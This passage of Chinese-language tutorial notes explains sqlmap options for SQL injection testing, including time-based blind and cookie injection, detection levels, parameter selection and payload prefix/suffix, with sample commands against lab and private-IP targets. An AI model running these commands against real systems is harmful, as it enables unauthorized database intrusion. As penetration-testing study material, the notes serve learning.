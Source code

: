    ```
   sqlmap -u http://192.168.1.121/sqli/Less-1/?id=1 --technique T --time-sec 3 --dbs 
   //--time -sec 时间盲注时间为3
   ```

   

6.  **使用Sqlmap进行Cookie注入**
   
      在SQLmap中有一个参数“--Level”,==当“leavel>=2”时就会检测COOKIE后面的参数，当“level>3”时将会检测User-Agent和Referer==,这为COOKIE的注入提供了便利：
   
      ```
      sqlmap -u  http://xxx.xx.xx.xx:xx/test.php  --cookie id=1 --dbs --leavel 2
      ```
   
      

7. 只有root才能读写文件，load_file

7. 如果你想看到sqlmap发送的测试payload最好的等级就是3。

9. 避免过多的错误请求被屏蔽，可用参数

```
1、--safe-url：提供一个安全不错误的连接，每隔一段时间都会去访问一下。
2、--safe-freq：提供一个安全不错误的连接，每次测试请求之后都会再访问一边安全连接。
```

10. 指定参数：-p

    **sqlmap默认测试所有的GET和POST参数，当--level的值大于等于2的时候也会测试HTTP Cookie头的值，当大于等于3的时候也会测试User-Agent和HTTP Referer头的值。但是你可以手动用-p参数设置想要测试的参数。例如： -p "id,user-anget"**

    

11. 在有些时候web服务器使用了URL重写，导致无法直接使用sqlmap测试参数，可以在想测试的参数后面加*

```
python sqlmap.py -u "http://targeturl/param1/value1*/param2/value2/"
sqlmap将会测试value1的位置是否可注入。
```

12. --prefix：前缀和--suffix：后缀

    需要在注入的payload的前面或者后面加一些字符，来保证payload的正常执行。

    ```
    python sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/get_str_brackets.php?id=1" -p id --prefix "’)" --suffix "AND (’abc’=’abc"
    
    $query = "SELECT * FROM users WHERE id=(’" . $_GET[’id’] . "’) LIMIT 0, 1"; 
    这样执行的SQL语句变成：
    $query = "SELECT * FROM users WHERE id=(’1’) <PAYLOAD> AND (’abc’=’abc’) LIMIT 0, 1"; 
    ```

13. --level:探测等级

    5个等级，默认是1

    **sqlmap使用的payload可以在xml/payloads.xml中看到，你也可以根据相应的格式添加自己的payload。**

    HTTP Cookie在level为2的时候就会测试，HTTP User-Agent/Referer头在level为3的时候就会测试。
